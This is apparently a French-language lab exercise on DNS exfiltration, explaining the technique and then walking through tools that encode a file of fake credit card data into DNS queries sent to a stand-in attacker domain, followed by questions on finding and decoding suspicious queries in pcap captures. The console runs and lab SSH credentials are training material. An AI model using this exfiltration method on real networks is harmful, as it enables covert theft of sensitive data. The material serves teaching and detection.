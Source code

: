 # Exfiltration DNS

### Exfiltration DNS : Theorie 

- L'exfiltration DNS est une cyberattaque sur les serveurs via le DNS, qui peut être effectuée manuellement ou automatiquement en fonction de l'emplacement physique de l'attaquant et de la proximité des appareils cibles.   
- Dans un scénario manuel, les attaquants obtiennent souvent un accès physique non autorisé à l'appareil ciblé pour extraire des données de l'environnement.
- Alors que dans l'exfiltration DNS automatisée, les attaquants utilisent des logiciels malveillants pour effectuer l'exfiltration des données à l'intérieur du réseau compromis.

- Le service DNS est généralement disponible sur une machine cible et autorisant le trafic sortant généralement sur le port TCP ou UDP 53. Cela fait du DNS un candidat de choix pour les pirates informatiques à utiliser pour exfiltrer des données.

- L'exfiltration de données via DNS pourrait permettre à un attaquant de transférer un grand volume de données depuis l'environnement cible. De plus, l'exfiltration DNS est principalement utilisée comme moyen de **collecter des informations personnelles** telles que les numéros de sécurité sociale, la propriété intellectuelle ou d'autres informations personnellement identifiables.

- L'exfiltration DNS est principalement utilisée **en ajoutant des chaînes contenant le « butin » souhaité aux requêtes DNS UDP**. La chaîne contenant le butin serait alors envoyée à un serveur DNS malveillant qui enregistre ces requêtes.
- 
- Pour un œil non averti, cela pourrait ressembler à un trafic DNS normal ou ces demandes pourraient être perdues dans le mélange de nombreuses demandes DNS légitimes.

<p align="center">
  <img src="https://cdn.discordapp.com/attachments/798799811482353734/807298488881643550/exfil.png"/>
</p>

---

### Exfiltration DNS : Exemple

- Dans cet exemple de scénario, un attaquant essaie d'exfiltrer des données vers son système et a décidé que sa meilleure option serait d'utiliser des requêtes DNS. 
- L'objectif de l'attaquant est d'exfiltrer des informations sensibles d'une machine sur le réseau de SecureCorp. Dans cet exemple, nous montrerons les étapes qu'un attaquant pourrait suivre pour exfiltrer ces données de la machine compromise.

<img src="https://cdn.discordapp.com/attachments/798799811482353734/807298488881643550/exfil.png"/>

les informations de carte de crédit ont été générés via un faux générateur de cartes de crédit.   
Toutes les informations de carte de crédit sont fausses :)

**Important**
Vous aurez besoin de fichiers pour compléter le reste du TP.

[securecorp.txt](https://raw.githubusercontent.com/kleosdc/dns-exfil-infil/main/securecorp.txt)  
[packety.py](https://raw.githubusercontent.com/kleosdc/dns-exfil-infil/main/packety.py)  
[packetGrabber.py](https://raw.githubusercontent.com/kleosdc/dns-exfil-infil/main/packetyGrabber.py)  

1. Fichier texte contenant de faux numéros de carte de crédit, noms, adresses.

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807129675221958696/1.PNG"/>

**Partie encodeur-transmetteur DNS**

2. [packety.py](https://raw.githubusercontent.com/kleosdc/dns-exfil-infil/main/packety.py)  

Lorsque packety.py est exécuté, vous devrez fournir au script l'entrée suivante :  

* Nom de fichier : (C'est le fichier que vous essayez d'exfiltrer du réseau de SecureCorp)  

* Nom de domaine : ( c'est ici que vous allez mettre votre nom de domaine, par exemple badbaddoma.in ). 

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807129727180472340/2.1.PNG"/>  


`python packety.py   
`
`Filename: securecorp.txt   
`
`Domain Name (Example: badbaddoma.in): badbaddoma.in 
`
`[+] Reading file.  
`
`[+] Base64 encoded.  
`
`[+] Base58 encoded.  
`
`Start transmitting... [PRESS ENTER KEY]    
`

- Le code commence par la lecture du fichier texte.   
- Le contenu du fichier texte sera d'abord encodé en Base64 puis en Base58. Cela nous laisse avec une longue chaîne encodée.  
- La chaîne est ensuite divisée en sections de 20 caractères où chaque section aura 3 caractères 'factices' ajoutés pour plus d'obscurcissement.   
- Un caractère sera ajouté au début de la chaîne encodée et deux caractères seront ajoutés.

- Par exemple, une section des données encodées pourrait ressembler à ceci : « 6gfghhjywsas3rg4hda3 ». Une fois les caractères supplémentaires ajoutés, il deviendra "x6gfghhjywsas3rg4hda3yu".
- Une fois que tout est encodé et prêt, le code attendra que l'utilisateur appuie sur "ENTREE" afin de commencer à transmettre les requêtes au serveur DNS.  
- Le serveur DNS a déjà été configuré pour capturer les requêtes entrantes avec 'Wireshark' ou 'tshark'.

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807129732692967474/3.PNG"/>

- Ensuite, il ne reste plus qu'à attendre que la transmission atteigne 100%. Si l'une des requêtes n'est pas livrée à temps et dans le bon ordre, les données exfiltrées seront incomplètes et inutiles pour l'attaquant.

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807129738539565066/5.PNG"/>

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807129741236502568/6.PNG"/>

**Partie decodeur-recepteur DNS**

3. [packetyGrabber.py](https://raw.githubusercontent.com/kleosdc/dns-exfil-infil/main/packetyGrabber.py)  

Le code demandera à l'utilisateur la saisie suivante :

* Fichier capturé : Il s'agit du fichier .pcap que vous avez capturé sur votre serveur DNS.

* Nom du fichier de sortie : il s'agit du nom du fichier dans lequel les données décodées seront enregistrées.

* Nom de domaine : Ce sera votre nom de domaine.  

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807129744641622016/7.PNG"/>

`python3 ~/tools/packety/packetyGrabber.py`      

`File captured: cap-credit-cards.pcap`      

`Filename output: credit-cards.txt`    

`Domain Name (Example: badbaddoma.in): badbaddoma.in`   

`[+] Domain Name set to badbaddoma.in`   

`[+] Filtering for your domain name`    

`[+] Base 58 decoded.`    

`[+] Base 64 decoded.`    

`[+] Output to credit-cards.txt.`   

- Si tout se passe bien, qu'aucune requête n'a été perdue et que toutes les entrées sont correctes, un fichier avec les données décodées sera enregistré dans le même répertoire à partir duquel vous avez exécuté le code.  

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807129748282933258/8.PNG"/>

---

### Exfiltration DNS : Pratique

**Se connecter à la machine cible en SSH**

Utiliser les crédentiels suivants :
* Utilsateur : user
* Mot de passe : P@ssword01

Parcourir les fichiers dans les dossiers :
```console
~/challenges/exfiltration
~/dns-exfil-infil/
```

Aller dans le dossier ci-dessous et lire les instructions dans le fichier TASK :
```console
$ cd ~/challenges/exfiltration/orderlist
```

L'extension de fichier .pcap  est principalement associée avec Wireshark
les fichiers .pcap créés pas Woreshark contiennent les données en paquets d'un réseau. 

Ces fichiers sont utilisés principalement dans l'analyse des caractéristiques du réseau d'un certain données. Ils contribuent également à contrôler avec succès le trafic d'un certain réseau depuis qu'ils sont surveillés par le programme.

- Analyser le fichier order.pcap et détecter le fichier comportant des requêtes suspectes :
```console
Réponse : $ tshark ...
```

Le script `~/dns-exfil-infil/packetyGrabber.py` permet de decrypter les fichiers Wireshark.
```console
$ python3 ~/dns-exfil-infil/packetyGrabber.py
```

Ignorer l'exception levée à la fin du script.

Quel est le nom de la première transaction ? 
```console
Réponse : 
```

Quel est la valeur de la transaction Firewall ?
```console
Réponse : 
```

Aller dans le dossier ci-dessous :
```console
$ cd ~/challenges/exfiltration/identify/
```
Parmi les fichiers `*.pcap` analyser leur contenu :
```console
Réponse : $ tshark ...
```
Si vous peinez à réaliser la commande demander au formateur de vous la fournir



Quel fichier contient des requêtes DNS douteuses ? Pourquoi ?
```console
Réponse : 
```

```console
python3 ~/dns-exfil-infil/packetyGrabber.py
```

Trouver le texte récupéré après avoir décodé les données en utilisant le programe Pyhton packetyGrabber.py qui se trouve dans le dossier `~/dns-exfil-infil/`.
```console
Réponse : 
```
